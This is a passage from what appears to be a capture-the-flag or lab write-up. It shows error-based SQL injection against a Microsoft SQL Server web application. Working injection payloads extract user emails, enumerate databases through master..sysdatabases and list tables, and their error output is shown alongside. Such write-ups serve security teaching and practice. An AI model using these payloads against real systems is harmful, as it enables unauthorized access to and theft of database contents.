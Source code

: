 We again specify the `not in` for the emails we find:

```
', convert(int,(select top 1 email from users where email not in ())))--
```

Our final script is: `', convert(int,(select top 1 email from users where email not in ('eric@thinc.local','alice@thinc.local','pedro@thinc.local','admin@thinc.local'))))--`

We have the emails:

```
eric@thinc.local
alice@thinc.local
pedro@thinc.local
admin@thinc.local
```

This is some good information, but we still don't really have a foothold. Let's try to see if there are any other databases using commands from [this link](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/). This inject specifically goes after the master database list and queries it based on database id:

```
',CONVERT(INT,(SELECT CAST(name AS nvarchar(4000)) FROM master..sysdatabases WHERE dbid=1)))--
```

From this, we get the following error:

```
Conversion failed when converting the nvarchar value 'master' to data type int.
```

Interesting, there is a master database. We also try changing the dbid to integers 1-6, representing the different existing dbs, and get the following:

|dbid|db_name|
|-----|------|
|1|master|
|2|tempdb|
|3|model|
|4|msdb|
|5|newsletter|
|6|archive|

Let's try to see the data in master first. It's name suggests that it has perhaps more sensitive information.

We use the following command to find the tables in master. It is the same command as before, accessing the information_schema, but instead of the schema of the database we are currently in, we can specify the master database:

```
',convert(int,(select top 1 table_name from master.information_schema.tables where table_name not in ('spt_fallback_db','spt_fallback_dev','spt_fallback_usg','spt_values','spt_monitor'))))--
```
